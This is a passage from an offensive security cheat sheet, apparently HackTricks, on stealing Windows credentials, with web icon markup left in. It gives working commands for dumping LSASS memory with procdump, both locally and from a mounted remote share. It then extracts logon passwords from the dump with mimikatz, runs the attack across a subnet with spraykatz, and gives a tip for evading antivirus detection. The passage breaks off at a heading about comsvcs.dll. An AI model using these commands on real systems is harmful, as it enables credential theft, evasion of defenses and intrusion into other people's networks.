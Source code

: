 #

Bypassing AV[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1794'%3e%3cg data-evernote-id='1795' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1796' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1797' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#bypassing-av)

##

Procdump + Mimikatz[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1810'%3e%3cg data-evernote-id='1811' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1812' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1813' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#procdump-mimikatz)

As** Procdump from **[**SysInternals **](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)**is a legitimate Microsoft tool**, it's not detected by Defender. You can use this tool to **dump the lsass process**, **download the dump** and **extract** the **credentials locally **from the dump.

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1843'%3e%3cg data-evernote-id='1844' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1845' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1846' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

Dump lsass
26#Local
27C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
28#Remote, mount https://live.sysinternals.com which contains procdump.exe
29net use Z: https://live.sysinternals.com
30Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1871'%3e%3cg data-evernote-id='1872' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1873' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1874' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

Extract credentials from the dump
31//Load the dump
32mimikatz # sekurlsa::minidump lsass.dmp
33//Extract credentials
34mimikatz # sekurlsa::logonPasswords

This process is done automatically with [SprayKatz](https://github.com/aas-n/spraykatz): `./spraykatz.py -u H4x0r -p L0c4L4dm1n -t 192.168.1.0/24 `

**Note**: Some **AV **may **detect **as **malicious **the use of **procdump.exe to dump lsass.exe**, this is because they are **detecting **the string **"procdump.exe" and "lsass.exe"**. So it is **stealthier **to **pass **as an **argument **the **PID **of lsass.exe to procdump **instead o**f the **name lsass.exe.**

##

Dumping lsass with **comsvcs.dll**[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1964'%3e%3cg data-evernote-id='1965' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1966' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1967' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/stealing-credentials#dumping-lsass-with-comsvcs-dll)
